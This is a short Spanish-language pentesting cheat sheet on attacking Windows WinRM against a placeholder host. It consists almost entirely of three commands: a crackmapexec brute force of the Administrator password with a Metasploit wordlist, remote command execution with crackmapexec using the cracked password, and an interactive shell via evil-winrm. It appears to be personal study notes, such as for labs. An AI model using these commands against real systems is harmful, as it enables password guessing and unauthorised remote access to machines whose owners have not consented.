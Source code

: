 ---------
- tags: #windows #rce #passthehash #crackmapexec #evilwinrm 
-----------------

### Fuerza bruta con crackmapexec 

	crackmapexec winrm x.x.x.x -u Administrator -p /usr/share/metasploit-framework/data/wordlists/unix_passwords.txt


### Ejecutar comandos con crackmapexec

	crackmapexec winrm x.x.x.x -u Administrator -p 123456789 -x "whoami"


### Shell con evil-winrm

	evil-winrm.rb -u Administrator -p 123456789 -i x.x.x.x 










  

















